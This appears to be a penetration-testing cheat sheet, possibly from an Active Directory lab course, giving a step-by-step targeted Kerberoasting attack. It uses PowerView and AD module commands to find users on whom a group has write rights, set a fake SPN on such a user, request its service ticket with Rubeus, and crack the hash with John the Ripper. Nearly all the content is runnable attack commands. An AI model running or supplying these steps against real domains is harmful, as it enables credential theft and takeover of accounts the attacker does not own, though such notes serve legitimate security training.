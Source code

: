 # Targeted Kerberoasting - Set-SPN
With enough rights (generic all/ generic write) a target user's SPN can be set to anything(unique in the domain) then a service ticket can be requested for kerberoasting and getting the account access. How to do it?  For exmaple we check outbound rules from bloodhound or run the below powerview command for the RDPUsers group we will see there are some supportx users on domain where rdpusers group has generic all permissions.
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```
- Using Powerview, see if the supportuser already has a SPN:
```
Get-DomainUser -Identity supportuser | select serviceprincipalname
```
- Same using AD module
```
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```
- Now set SPN for that user
```
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```
- Same as above set SPN using AD moudle
```
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'} 
```
- After this kerberoast the user
```
Rubeus.exe kerberoast /outfile:targetedhashes.txt 
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```
